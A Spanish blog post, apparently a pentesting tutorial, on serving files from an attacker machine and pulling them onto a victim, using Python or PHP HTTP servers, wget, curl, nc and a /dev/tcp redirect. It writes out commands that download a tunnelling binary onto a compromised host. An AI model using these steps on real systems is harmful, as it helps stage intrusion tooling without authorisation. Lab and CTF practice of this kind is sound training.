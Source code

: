 ```yaml
---
title       : "Creación de servidor local"
excerpt:      "Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre la máquina atacante y la víctima."
header:
  teaser: /assets/images/linux/prev.png
  teaser_home_page: true
  icon: /assets/images/TUX.png
classes		: wide
categories:
  - Sistemas
tags:  
  - Python
  - PHP
  - Howto
---
```


![](/assets/images/linux/prev.png){: .align-center}

Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre 2 máquinas.

> Para los ejemplos utilizaremos chisel como el binario que transferimos y el puerto 80.

Esto es muy útil en varios escenarios, pero un ejemplo típico es cuando queremos subir un binario a la máquina víctima. En primer lugar lo que necesitamos es colocarnos en el directorio donde tenemos los ficheros que queremos transferir. Una vez ahí, existen varias formas de crear un servidor, pero vamos a comentar las más usadas:

1. Python: `python3 -m http.server 80` 
2. PHP: `php -S localhost:80`

> Para el ejemplo hemos utilizado el puerto 80, ya que así no sería necesario especificar el puerto para recoger el fichero. Pero si está siendo usado, o por cualquier otro motivo no se puede utilizar, se introduce el que deseemos.

Una vez hemos creado este servidor, tendremos nuestros contenidos accesibles introduciendo nuestra IP local en la máquina víctima. Para recoger esos contenidos podemos utilizar también varias formas:

1. wget: `wget 192.168.1.150/chisel`
2. curl: `curl 192.168.1.150/chisel -o chisel`

Aquí adjunto una captura real realizando la máquina propia [Principle](https://kaianperez.github.io/principle/):

![](/assets/images/server/copychisel.png){: .align-center}

Bien, estas formas son las más recomendables, ya que son rápidas y versátiles, no darán problemas.


## EXTRA

<font color='red'>¿Y qué podemos hacer en caso de que no tengamos la posibilidad de usar esos binarios?</font>

Si bien es algo muy raro, podría ocurrir. En ese caso podemos usar nc. Para este ejemplo vamos a usar el puerto 4444:

Enviamos el fichero a transferir: `nc -nlvp 4444 < chisel`

Y lo recogemos con nc en la máquina víctima: `nc 192.168.1.150 4444 > chisel` 

![](/assets/images/server/nc.png){: .align-center}


<font color='red'>Estupendo, pero no tengo nc en la máquina víctima...</font>

En ese caso, servimos el fichero igualmente con nc y lo vamos a recoger de esta forma:

`cat > chisel < /dev/tcp/192.168.1.150/4444`

Pues con esto ya estaría, hemos tocado la mayoría de casos que se nos van a dar y cómo solventarlos. Basta indicar que esto se puede realizar en cualquier dirección y combinar la forma de crear el servidor con la de recoger el fichero. Espero os haya servido.